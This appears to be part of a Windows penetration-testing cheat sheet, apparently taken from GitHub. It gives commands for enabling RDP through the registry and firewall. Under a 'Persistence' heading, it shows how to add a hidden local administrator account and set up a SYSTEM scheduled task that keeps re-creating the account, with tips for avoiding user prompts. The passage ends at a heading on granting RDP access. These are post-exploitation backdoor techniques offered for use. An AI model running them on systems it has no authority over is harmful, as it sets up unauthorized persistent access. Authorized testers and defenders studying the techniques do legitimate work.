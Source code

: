 ###### Activate RDP

RDP can be enabled / disabled with out the need to restart the system with the
`reg` utility:

```
# Check if RDP is enabled
netstat /p tcp /a | findstr 3389
# If RDP is enabled, registry value should be equal to 0x0
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections

# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

# Disable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
```

### Persistence

###### Add local Administrator

The following `net user` commands can be used to create and add a windows
account in the administrator group (directly or periodically through a
`Scheduled Task`):

```
# Creates a new account.
net user /add <USERNAME> <PASSWORD>

# Adds account as administrator.
net localgroup Administrators <USERNAME> /add
net localgroup Administrateurs <USERNAME> /add

# Define a scheduled task that will create a local user and add it to the local Administrator group every <MODIFIER>.
# The <PERIODICITY> depends on the periodicity chosen (minute, hourly, daily, weekly, or monthly): 1 - 1439 for minutes, 1 - 23 for hours, 1 - 365 for days, 1 - 52 for weeks or 1 - 12 for months.
# To avoid a warning on the password length (that may require an user interaction), the password specified should be shorter than 14 characters.
schtasks /create /tn "<TASK_NAME>" /tr "cmd /c net user <USERNAME> <PASSWORD> /add && net localgroup Administrators <USERNAME> /add" /sc <minute | hourly | daily | weekly | monthly> /mo <PERIODICITY> /RU "NT AUTHORITY\SYSTEM"
```

###### Grant user RDP access

To access a host remotely in RDP, the user used must be present in the "Remote
Desktop Users" localgroup on the host. The following `net localgroup` commands
can be used to add the specified user in this group:
